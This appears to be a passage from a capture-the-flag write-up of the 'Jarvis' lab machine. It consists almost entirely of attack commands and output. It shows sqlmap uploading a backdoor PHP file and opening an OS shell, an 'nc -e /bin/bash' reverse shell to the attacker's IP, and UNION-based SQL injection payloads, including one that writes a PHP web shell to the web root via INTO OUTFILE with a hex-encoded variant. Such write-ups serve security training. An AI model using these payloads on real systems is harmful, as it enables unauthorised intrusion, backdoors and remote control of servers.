 ```console
[12:50:19] [WARNING] it looks like the file has not been written (usually occurs if the DBMS process user has no write privileges in the destination path)
[12:50:20] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[12:50:23] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://jarvis.htb:80/tmpuoezp.php
[12:50:25] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://jarvis.htb:80/tmpbtnbe.php
[12:50:25] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> id
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output: 'uid=33(www-data) gid=33(www-data) groups=33(www-data)'
os-shell> uname -a
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output: 'Linux jarvis 4.9.0-19-amd64 #1 SMP Debian 4.9.320-2 (2022-06-30) x86_64 GNU/Linux'
os-shell> ip a
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output:
---
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:e8:e2 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.143/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:e8e2/64 scope link
       valid_lft forever preferred_lft forever
---
os-shell> nc 10.10.14.39 1234 -e /bin/bash
```

- **manual get shell**
  - `-1 UNION SELECT 1, @@version, user(), system_user(), (SELECT GROUP_CONCAT(concat_ws(':', variable_name, variable_value) SEPARATOR '; ') FROM information_schema.global_variables WHERE variable_name LIKE '%secure%'), 6, 7`
    - When the value of `secure_file_priv` is not set, it means there are no restrictions on the import or export operations for `mysqld`.
  - `-1 UNION SELECT 1,2,3,4,5,6,'<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php'`
    - `<?php system($_GET["cmd"]); ?>` can be hex format
    - `0x3c3f7068702073797374656d28245f4745545b22636d64225d293b203f3e`
